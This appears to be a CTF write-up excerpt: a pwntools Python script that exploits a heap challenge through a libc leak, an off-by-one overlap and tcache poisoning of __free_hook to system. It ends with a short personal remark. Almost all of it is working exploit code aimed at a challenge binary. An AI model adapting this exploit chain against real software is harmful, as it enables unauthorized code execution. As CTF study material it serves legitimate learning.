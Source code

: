 ```python
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
close = lambda : p.close()
debug = lambda : gdb.attach(p)
shell = lambda : p.interactive()

# ----------------------------------------------------------


def add(index,size,content):
    sla(b'chs:', b'1')
    sla(b'?\n', str(index).encode())
    sla(b':\n', str(size).encode())
    sl(content)


def delete(index):
    sla(b'chs:', b'2')
    sla(b'?\n', str(index).encode())


def edit(index,content):
    sla(b'chs:', b'3')
    sla(b'?\n', str(index).encode())
    sa(b':', content)

# 泄露 libc 基址 
libc = ELF(libc_path)
sa(b'name?\n', b'a'*0x10)
sla(b'age?\n', b'a')
ru(b'age: ')
addr2 = int(rud(b'\n').decode())
ru(b'high: ')
addr1 = int(rud(b'\n').decode()) 
addr = addr1*2**32 + addr2
libc_base = addr - libc.sym['_IO_file_jumps']

# off by one 构造堆叠
add(0, 0x28, b'')
add(1, 0x20, b'')
add(2, 0x20, b'')
edit(0, b'a'*0x28 + b'\x81')
delete(0)
delete(1)
delete(2)

# tcache poisoning
add(1, 0x70, b'a'*0x28 + p64(0x81) + p64(libc_base + libc.sym['__free_hook']-0x8))
add(0, 0x20, b'')
add(3, 0x20, b'/bin/sh\x00' + p64(libc_base + libc.sym['system']))
delete(3)

p.interactive()
```

### ps

tototo 鸽一下，做飞柱去咯！